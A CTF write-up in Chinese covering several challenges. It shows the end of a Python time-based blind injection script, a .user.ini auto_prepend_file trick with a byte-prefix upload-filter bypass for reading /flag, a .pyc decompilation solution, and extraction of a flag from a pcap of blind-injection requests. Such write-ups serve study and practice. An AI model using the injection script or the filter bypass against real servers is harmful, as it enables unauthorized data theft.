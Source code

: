 ```python
    b = 127
    while True:
        mid = int((a + b) / 2)
        if mid == 0:
            break
        if measure_time(lambda: send(pos, f'>={mid}')) < 1:
            b = mid
        elif measure_time(lambda: send(pos, f'<={mid}')) < 1:
            a = mid
        else:
            s = chr(mid)
            break
    return s

if __name__ == "__main__":
    s = ''
    pos = 1
    while True:
        c = blind(pos)
        if c == '':
            break
        else:
            s += c
            pos += 1
    print(s)
```

### upload lab

服务端是由*nginx*+*PHP*构成的，根据hint通过搜索引擎可以发现利用`.user.ini`的攻击方式。

在新版*PHP*环境中，默认`allow_url_include=false`，而且用户级别不可修改此配置，因此无法使用`auto_prepend_file="filter://read=convert.base64-decode/resource=inject.png"`来注入可以执行的*PHP*代码。最后直接盲猜flag位置：`auto_prepend_file="filter://read=convert.base64-decode/resource=/flag"`。

上传过程中有个问题使服务端会对文件内容进行过滤，具体过滤条件我不清楚，但是在`.user.ini`文件开头处插入字节`00 32 33 0A`即可绕过服务端的过滤。

## Reverse

### snake

用hex editor打开此文件，可以通过开头处的magic bytes识别出这是一个*python*的字节码。对使用*uncompyle6*反编译输出的*python* source code分析可得到正确的输入参数是`e4sy_py_dec0mpi1e`，将snake加上`.pyc`后缀直接用*python*运行即可。

## Misc

### sqlmap yibasuo

根据hint，在抓包数据中可以提取出flag。用*Wireshark*打开`sqlmap_yibasuo.pcapng`过滤出所有的post请求，可以发现在靠后的一部分出现了盲注的请求，从盲注的第一个请求开始，将所有出现`!=`的请求中`!=`后的数字(ascii code)按顺序记录下来，转换为字符串即可得到flag，~~没错我没写script，全手动~~。
